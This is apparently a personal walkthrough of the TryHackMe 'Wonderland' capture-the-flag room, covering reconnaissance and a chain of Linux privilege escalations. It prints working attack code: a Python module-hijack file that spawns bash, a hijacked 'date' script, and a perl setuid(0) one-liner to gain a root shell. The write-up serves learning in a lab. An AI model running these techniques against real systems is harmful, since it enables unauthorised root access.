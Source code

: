 # Wonderland - Writeup

## Overview

This is my writeup for the Wonderland CTF.  The Wonderland CTF is a free room of intermediate difficulty which tests your knowledge of privilege escalation.  This challenge has no shortage of rabbit holes (pun intended) so it's important to remain cautious and stick to your methodology.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/wonderland

## Steps

When tackling a CTF like this, the standard practice is to start with reconnaissance.  I typically start with an nmap scan:

```
$ nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
# Nmap 7.91 scan initiated Sun Mar 14 00:30:18 2021 as: nmap -sC -sV -T4 -p- -oN nmap/initial_scan 10.10.7.151
Nmap scan report for 10.10.7.151
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 14 00:30:54 2021 -- 1 IP address (1 host up) scanned in 35.96 seconds
```

According to the scan, ports 22 (SSH) and 80 (HTTP) are open.  I then navigated to the website to manually investigate whilst `gobuster` was running in the background:

```
$ gobuster dir -e -u 10.10.7.151 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.7.151
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/14 00:33:52 Starting gobuster
===============================================================
http://10.10.7.151/img (Status: 301)
http://10.10.7.151/index.html (Status: 301)
http://10.10.7.151/r (Status: 301)
===============================================================
2021/03/14 00:34:12 Finished
===============================================================
```

Whilst manually crawling through the website, I discovered the `/img` directory and downloaded each image onto my machine.  I then used `steghide` to see if there was anything embedded in the images:

```
$ steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
wrote extracted data to "hint.txt".
$ cat hint.txt
follow the r a b b i t
```

The `gobuster` output revealed a `/r` directory.  Navigating to this shows:

![r directory](screenshots/r_directory.png)

From the `hint.txt`, I realised that there within this directory there is a `/a` directory.  So, navigating to `/r/a/b/b/i/t` reveals:

![follow the r a b b i t](screenshots/r_a_b_b_i_t.png)

Inspecting the source code of this page revealed a hidden paragraph:

`<p style="display: none;">alice:H********************************************l</p>`

This looks like a username:password combination.  So, I can now login via SSH:

![ssh login with alice](screenshots/alice_ssh_login.png)

The `alice` user's home directory shows two files:
- root.txt: cannot be read.
- walrus_and_the_carpenter.py: script that prints 10 random lines from a poem string.

I decided to inspect what commands we can run as `alice`:

```
$ sudo --list
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like we can run the Python file.  Sample output:

```
$ python walrus_and_the_carpenter.py
The line was:    "The night is fine," the Walrus said
The line was:    Holding his pocket handkerchief
The line was:    The sun was shining on the sea,
The line was:    The Carpenter said nothing but
The line was:    "The time has come," the Walrus said,
The line was:    And made them trot so quick!"
The line was:    Pepper and vinegar besides
The line was:    Before his streaming eyes.
The line was:    With sobs and tears he sorted out
The line was:    And why the sea is boiling hot —
```

This means we can hijack the module and spawn a bash shell by creating a `random.py` file in the same directory.  Here is a link to the article which I used: [click here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

My `random.py` file simply imports `os` and `pty`, and then uses `.spawn()` to create a bash shell process.  I can then execute this as the `rabbit` user, completing the privilege escalation.

```
""" random.py - python module hijacking """
import os
import pty

pty.spawn('/bin/bash')
```

The result:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

Within the `rabbit` user's `/home` directory there is a executable file named `teaParty`:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 14 Mar 2021 02:03:38 +0000
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

I downloaded this file onto my own machine using Python's `http.server`.  On the room machine, I ran:

```
rabbit@wonderland:/home/rabbit$ python3.6 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.9.150.161 - - [14/Mar/2021 01:10:29] "GET /teaParty HTTP/1.1" 200 -
```

And, on my machine, I ran:

```
$ wget http://10.10.7.151:8000/teaParty
--2021-03-14 01:10:29--  http://10.10.7.151:8000/teaParty
Connecting to 10.10.7.151:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty           100%[===============>]  16.42K  --.-KB/s    in 0.07s   

2021-03-14 01:10:29 (237 KB/s) - ‘teaParty’ saved [16816/16816]
```

After analysing the decompiled code, I found that "Segmentation fault (core dumped)" is printed as a string, and is not an error.  I then noticed that the `date` module was being called, so I used the same module hijacking exploit that used earlier.  I first created a file called `date`:

```
#!/bin/bash
echo "Hijacking date module..."
/bin/bash
```

When run, this escalates privileges to become the `hatter` user.  Navigating to their home directory reveals a `password.txt` file which contains their login credentials.

`W*************************k`

Using `sudo -l`, it appears that this user has perl capabilities.  This means I can do further privilege escalation by setting the UID of `hatter` to 0 (root):

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX:;setuid(0); exec "/bin/sh";'
# ls /home/alice
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
# cat /home/alice/root.txt
thm{T********************************************************!}
```

Going further into the `/root` directory:

```
# ls -la /root
total 28
drwx--x--x  4 root root 4096 May 25  2020 .
drwxr-xr-x 23 root root 4096 May 25  2020 ..
lrwxrwxrwx  1 root root    9 May 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 25  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 25  2020 .ssh
-rw-r--r--  1 root root   32 May 25  2020 user.txt
# cat /root/user.txt    
thm{"C**********************!"}
#
```

And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of privilege escalation.  If you are more of a beginner, I would strongly recommend trying one of the easier rooms as I didn't know many of the tactics used in this guide (found due to extensive Googling).
